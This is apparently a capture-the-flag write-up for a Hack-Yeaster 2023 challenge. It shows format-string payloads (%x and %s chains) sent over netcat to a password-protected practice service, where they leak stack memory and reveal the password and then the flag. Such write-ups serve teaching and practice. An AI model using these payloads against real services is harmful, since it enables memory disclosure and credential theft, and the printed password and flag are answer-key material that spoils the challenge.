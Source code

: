 # Description

# Thumper's PWN - Ring 3

Thumper has been hunting his nemesis, Dr. Evil, for months. He finally located his remote system and is trying to gain access. Can you help him find the right password?

Target: `nc ch.hackyeaster.com 2313`

Note: The service is restarted every hour at x:00.

# Solution

well another pwn challenge, but this looks easy

tried two times and i am pretty near to the solution i guess!

```
$ nc ch.hackyeaster.com 2313
Welcome to the password protected vault
Please enter your password: asdf
Nope..
asdf
is incorrect. Better luck next time
$ nc ch.hackyeaster.com 2313
Welcome to the password protected vault
Please enter your password: %x%x
Nope..
38fd37e338fd48c0
is incorrect. Better luck next time
```

well i am not there yet, but format strings are the way to go!

```
$ nc ch.hackyeaster.com 2313
Welcome to the password protected vault
Please enter your password: %x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%xpassword
Nope..
9e9937e3.9e9948c0.9e6b7104.6.9ebbc4c0.0.c7800a5d.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.252e7825.7078252e.a64726f.0.0.0.0.9.9e99a660.ab6a4a78.1.1.c78009dd.9e9a8b40.0.c7800990.c7800790.ab6a4b40.fa0fd700.c7800990.9e5c8c87.0password
is incorrect. Better luck next time
$ nc ch.hackyeaster.com 2313
Welcome to the password protected vault
Please enter your password: %s.%s.%s.%s.%s.%s.%s.%s.%s
Nope..
timeout: the monitored command dumped core
```

after some time i got it:

```
$ nc ch.hackyeaster.com 2313
Welcome to the password protected vault
Please enter your password: %x.%x.%x.%x.%x.%x.%s
Nope..
525027e3.525038c0.52226104.6.5272b4c0.0.5uP3R_s3cUr3_PW

is incorrect. Better luck next time
```

jup here is the flag:

```
$ nc ch.hackyeaster.com 2313
Welcome to the password protected vault
Please enter your password: 5uP3R_s3cUr3_PW
Access granted, here is your flag:

he2023{w3lc0m3_t0_r1ng_3_thump3r}
```

# FLAG: he2023{w3lc0m3_t0_r1ng_3_thump3r}
